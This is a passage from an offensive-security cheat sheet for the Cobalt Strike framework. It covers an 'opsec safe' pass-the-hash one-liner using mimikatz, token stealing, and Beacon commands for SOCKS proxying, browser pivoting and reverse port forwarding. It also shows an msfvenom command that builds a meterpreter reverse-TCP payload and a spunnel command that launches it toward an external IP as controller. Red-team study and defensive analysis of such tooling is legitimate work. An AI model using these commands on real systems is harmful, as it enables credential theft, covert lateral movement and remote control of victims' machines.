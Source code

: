 ```powershell
```

Opsec safe Pass-the-Hash:
1. `mimikatz sekurlsa::pth /user:xxx /domain:xxx /ntlm:xxxx /run:"powershell -w hidden"`
2. `steal_token PID`

### Assume Control of Artifact

* Use `link` to connect to SMB Beacon
* Use `connect` to connect to TCP Beacon


## VPN & Pivots

:warning: Covert VPN doesn't work with W10, and requires Administrator access to deploy.

> Use socks 8080 to setup a SOCKS4a proxy server on port 8080 (or any other port you choose). This will setup a SOCKS proxy server to tunnel traffic through Beacon. Beacon's sleep time adds latency to any traffic you tunnel through it. Use sleep 0 to make Beacon check-in several times a second.

```powershell
# Start a SOCKS server on the given port on your teamserver, tunneling traffic through the specified Beacon. Set the teamserver/port configuration in /etc/proxychains.conf for easy usage.
beacon > socks [PORT]
beacon > socks [port]
beacon > socks [port] [socks4]
beacon > socks [port] [socks5]
beacon > socks [port] [socks5] [enableNoAuth|disableNoAuth] [user] [password]
beacon > socks [port] [socks5] [enableNoAuth|disableNoAuth] [user] [password] [enableLogging|disableLogging]

# Proxy browser traffic through a specified Internet Explorer process.
beacon > browserpivot [pid] [x86|x64]

# Bind to the specified port on the Beacon host, and forward any incoming connections to the forwarded host and port.
beacon > rportfwd [bind port] [forward host] [forward port]

# spunnel : Spawn an agent and create a reverse port forward tunnel to its controller.    ~=  rportfwd + shspawn.
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw -o /tmp/msf.bin
beacon> spunnel x64 184.105.181.155 4444 C:\Payloads\msf.bin

# spunnel_local: Spawn an agent and create a reverse port forward, tunnelled through your Cobalt Strike client, to its controller
# then you can handle the connect back on your MSF multi handler
beacon> spunnel_local x64 127.0.0.1 4444 C:\Payloads\msf.bin
```

## Kits

* [Cobalt Strike Community Kit](https://cobalt-strike.github.io/community_kit/) - Community Kit is a central repository of extensions written by the user community to extend the capabilities of Cobalt Strike
